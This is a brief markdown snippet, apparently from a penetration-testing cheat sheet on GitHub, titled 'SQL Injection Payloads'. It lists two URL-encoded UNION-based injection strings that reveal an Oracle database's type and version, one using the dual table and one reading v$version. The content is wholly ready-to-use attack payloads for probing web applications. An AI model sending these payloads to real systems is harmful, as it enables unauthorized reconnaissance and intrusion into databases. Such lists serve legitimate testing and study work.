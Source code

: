 # SQL Injection Payloads

- **Oracle database type and version information**
```
'+UNION+SELECT+'abc','def'+FROM+dual--
```
```
'+UNION+SELECT+BANNER,+NULL+FROM+v$version--
```
